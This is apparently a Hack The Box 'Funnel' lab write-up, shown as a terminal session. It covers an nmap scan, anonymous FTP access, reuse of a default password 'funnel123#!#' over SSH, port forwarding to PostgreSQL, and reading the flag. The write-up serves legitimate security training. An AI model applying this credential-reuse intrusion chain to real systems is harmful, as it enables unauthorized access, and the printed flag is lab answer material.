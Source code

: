 Hack the Box
starting point

Funnel

10.129.98.208

┌──(kali㉿kali)-[~/…/CTF/HTB/starting_point/bike]
└─$ nmap -sV -sC --min-rate 1000 --max-retries 2 -oN nmap/funnel 10.129.98.208
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-06 00:05 EDT
Nmap scan report for 10.129.98.208
Host is up (0.085s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.91
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    2 ftp      ftp          4096 Nov 28  2022 mail_backup
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 48:ad:d5:b8:3a:9f:bc:be:f7:e8:20:1e:f6:bf:de:ae (RSA)
|   256 b7:89:6c:0b:20:ed:49:b2:c1:86:7c:29:92:74:1c:1f (ECDSA)
|_  256 18:cd:9d:08:a6:21:a8:b8:b6:f7:9f:8d:40:51:54:fb (ED25519)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.19 seconds

──(kali㉿kali)-[~/…/CTF/HTB/starting_point/funnel]
└─$ ftp 10.129.98.208
Connected to 10.129.98.208.
220 (vsFTPd 3.0.3)
Name (10.129.98.208:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> 

ftp> cd ./mail_backup
250 Directory successfully changed.
ftp> ls
229 Entering Extended Passive Mode (|||38479|)
150 Here comes the directory listing.
-rw-r--r--    1 ftp      ftp         58899 Nov 28  2022 password_policy.pdf
-rw-r--r--    1 ftp      ftp           713 Nov 28  2022 welcome_28112022
226 Directory send OK.
ftp> get password_policy.pdf
local: password_policy.pdf remote: password_policy.pdf
229 Entering Extended Passive Mode (|||24263|)
150 Opening BINARY mode data connection for password_policy.pdf (58899 bytes).
100% |*******************************************************************| 58899      325.58 KiB/s    00:00 ETA
226 Transfer complete.
58899 bytes received in 00:00 (221.35 KiB/s)
ftp> get welcome_28112022
local: welcome_28112022 remote: welcome_28112022
229 Entering Extended Passive Mode (|||15164|)
150 Opening BINARY mode data connection for welcome_28112022 (713 bytes).
100% |*******************************************************************|   713      344.69 KiB/s    00:00 ETA
226 Transfer complete.
713 bytes received in 00:00 (8.10 KiB/s)

Default passwords — such as those created for new users — must be changed
as quickly as possible. For example the default password of “funnel123#!#” must
be changed immediately.

optimus@funnel.htb 
albert@funnel.htb 
andreas@funnel.htb 
christine@funnel.htb 
maria@funnel.htb

┌──(kali㉿kali)-[~/…/CTF/HTB/starting_point/funnel]
└─$ ssh christine@10.129.98.208
christine@10.129.98.208's password: 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-135-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun 06 Aug 2023 04:26:32 AM UTC

  System load:              0.01
  Usage of /:               61.4% of 4.78GB
  Memory usage:             12%
  Swap usage:               0%
  Processes:                159
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for ens160:  10.129.98.208
  IPv6 address for ens160:  dead:beef::250:56ff:feb0:97c4


christine@funnel:~$ ss -tln
State       Recv-Q       Send-Q             Local Address:Port              Peer Address:Port      Process      
LISTEN      0            4096                   127.0.0.1:5432                   0.0.0.0:*                      
LISTEN      0            4096                   127.0.0.1:38333                  0.0.0.0:*                      
LISTEN      0            4096               127.0.0.53%lo:53                     0.0.0.0:*                      
LISTEN      0            128                      0.0.0.0:22                     0.0.0.0:*                      
LISTEN      0            32                             *:21                           *:*                      
LISTEN      0            128                         [::]:22                        [::]:*                      
christine@funnel:~$ ss -tl
State       Recv-Q      Send-Q           Local Address:Port                 Peer Address:Port      Process      
LISTEN      0           4096                 127.0.0.1:postgresql                0.0.0.0:*                      
LISTEN      0           4096                 127.0.0.1:38333                     0.0.0.0:*                      
LISTEN      0           4096             127.0.0.53%lo:domain                    0.0.0.0:*                      
LISTEN      0           128                    0.0.0.0:ssh                       0.0.0.0:*                      
LISTEN      0           32                           *:ftp                             *:*                      
LISTEN      0           128                       [::]:ssh                          [::]:*    


christine@funnel:~$ psql

Command 'psql' not found, but can be installed with:

apt install postgresql-client-common
Please ask your administrator.

Need to set up local port forwarding

ssh -L 1234:localhost:5432 christine@10.129.98.208
password: funnel123#!#

christine-# \l
                                                  List of databases
   Name    |   Owner   | Encoding |  Collate   |   Ctype    | ICU Locale | Locale Provider |    Access privileges    
-----------+-----------+----------+------------+------------+------------+-----------------+-------------------------
 christine | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 postgres  | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 secrets   | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | 
 template0 | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/christine           +
           |           |          |            |            |            |                 | christine=CTc/christine
 template1 | christine | UTF8     | en_US.utf8 | en_US.utf8 |            | libc            | =c/christine           +
           |           |          |            |            |            |                 | christine=CTc/christine
\c





christine-# \c secrets
psql (15.3 (Debian 15.3-0+deb12u1), server 15.1 (Debian 15.1-1.pgdg110+1))
You are now connected to database "secrets" as user "christine".
secrets-# \dt
         List of relations
 Schema | Name | Type  |   Owner   
--------+------+-------+-----------
 public | flag | table | christine


secrets=# SELECT * FROM flag;
              value               
----------------------------------
 cf277664b1771217d7006acdea006db1

